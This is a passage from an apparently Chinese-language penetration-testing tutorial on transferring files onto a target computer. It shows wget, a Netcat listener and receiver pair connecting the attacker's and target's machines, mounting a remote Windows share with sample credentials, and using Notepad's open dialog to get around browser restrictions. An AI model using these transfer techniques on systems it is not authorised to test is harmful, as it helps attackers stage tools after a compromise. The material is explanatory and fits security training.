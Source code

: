 ```
wget http://example.com/file 
```

### Netcat File Download

Netcat 在 linux 上的实例：

攻击者的电脑上输入：

```
cat file | nc -l 1234 
```

这个命令会将 file 的内容输出到本地的 1234 端口中，然后不论谁连接此端口，file 的内容将会发送到连接过来的 IP。

目标电脑上的命令：

```
nc host_ip 1234 > file 
```

这条命令将连接攻击者的电脑，接受 file 内容保存。

### Windows Share File Download

Windows shares 可以加载一个驱动器，然后用命令来复制文件。

加载远程驱动：

```
 net use x: \\127.0.0.1\share /user:example.com\userID myPassword 
```

### Notepad Dialog Box File Download

如果你有权限接入一台（远程连接或者物理机）电脑，但是你用户权限不允许打开浏览器，这种方式可以让你快速的从一个 URL 或者 UNC 路径当中下载文件。

1.打开 notepad 2.点击 file - open

在 File Name 当中输入完整的 URL：

![enter image description here](img/img1_u48_jpg.jpg)